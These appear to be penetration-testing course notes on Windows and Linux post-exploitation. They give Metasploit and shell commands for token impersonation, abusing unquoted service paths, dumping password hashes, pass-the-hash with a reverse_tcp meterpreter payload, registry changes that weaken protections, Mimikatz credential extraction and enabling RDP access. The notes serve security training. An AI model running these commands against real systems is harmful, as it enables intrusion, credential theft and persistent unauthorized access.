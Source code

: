 (031/158) *Incognito*: `use incognito`, `list_tokens -u`, `impersonate_tokens els\\els`: to impersonate other existent users on the machine (without cracking the passwords), giving the possibility to access different local or domain resources.

(035/158) *Unquoted Service Paths*: is a method we can use for either persistence or for escalating our privileges, depending on the circumstance. In this method we abuse the way (the search oder) that Windows searches for executables belonging to a service. The issue arises when a service binary is unquoted and contains spaces in its executable path (e.g. `C:\Program Files (x86)\Canon\IJ Scan Utility\SETEVENT.exe`). We can exploit this vulnerability to force the service to laungh the malicious executable (which runs a reverse TCP shell for instance) rather than of the original one.
`wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`: searches for service binary paths which are unquoted.
`use exploit/windows/local/trusted_service_path`: to automatically exploit unquoted path-vulnerable instances of services.
`sc qc AdobeARMservice`: to manually check for an unquoted path.

(044/158) *Linux Privilege Escalation*.
The best way to proceed is by getting information about the current OS and then searching for publicly available exploits. Note that privilege escalation exploits are very OS specific.

(063/158) *Maintaining Access*: we want to make our presence on the target machine *persistent*, creating a backdoor readily available for later use.

(074/158) *Password hash*.
`run hashdump`: to recover the password hashes.
Now that we have the password hashes, we can try to crack them or we can use the *pass-the-hash* technique: it allows to use LM/NTLM hashes (without using the actual plaintext password) to authenticate to a remote machine.
`use exploit/windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set SMBUSER <Username>`, `set SMBPASS <LMHash>:<NTLMHash>`, `set RHOST <TargetIP>`, `exploit`: to run the attack. Note that this attack only works with an administrator account.
If our current user is in the administators group, but it is not the actual administrator (RID-500), we can get a `STATUS_ACCESS_DENIED` error. To avoid this we need to set a registry entry: `reg setval -k HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -v LocalAccountTokenFilterPolicy -t REG_DWORD -d 1`: to allow non RID-500 user accounts to successfully pass the hash. `reg setval -k HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanManServer\Parameters -v RequireSecuritySignature -t REG_DWORD -d 0`.

We can also use the LM/NTLM hashes to log onto a Remote Desktop service: `xfreerdp /u:<Username> /d:<DomainName> /pth:<NTLMHash> /v:<TargetIP>`.

(093/158) *Mimikatz* is a tool to extract plaintext passwords (but also Kerberos tickets) from an exploited machine, and it can also perform pass-the-hash attacks.
Note that for loading all the features of this tool we need to have the Meterpreter session running on a 64-bit process. To migrate the Meterpreter session: `sysinfo`, `ps -A x86_64 -s`: where `-A` specifies the architecture and `-s` lists only SYSTEM processes, `migrate <64BitPID>`, `sysinfo`.
`load mimikatz`, `wdigest`: to retrieve LM/NTLM hashes.

(103/158) *RDP service*.
`shell`, `net start`: to check the enabled services, or we can also use: `run post/windows/gather/enum_services`.
`wmic service where 'Caption like "Remote%" and started=true' get Caption`: to check if a specific service is enabled.
`run getgui -e`: to enable RDP for the current user. Note that we need to check if the current user belongs to Remote Desktop Users group. `shell`, `net localgroup "<GroupName>" <Username> /add`: to add the user to a specific group (e.g. `net localgroup "Remote Desktop Users" els /add`).
`net localgroup`: to list the groups, `net localgroup "<GroupName>"`: to list the users of a specific group.
`rdesktop <TargetIP> -u <Username> -p <Password>`: to try to establish an RDP connection to the target machine.
